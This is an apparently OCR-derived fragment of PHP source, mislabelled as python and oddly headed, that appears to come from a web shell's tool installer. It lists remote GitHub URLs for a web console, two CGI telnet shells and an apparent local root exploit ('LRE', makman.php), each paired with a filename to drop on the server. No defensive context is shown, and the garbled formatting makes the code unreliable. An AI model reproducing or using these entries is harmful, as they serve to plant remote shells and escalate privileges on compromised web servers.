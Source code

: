 ##$name === "webconsole"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/webcon", "webconsole.php");
```

##$name === "cgitelnet1"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi1", "idx_cgi/cgitelnet1.idx");
```

##$name === "cgitelnet2"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi2", "idx_cgi/cgitelnet2.idx");
```

##$name === "LRE"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/makman", "makman.php");
```
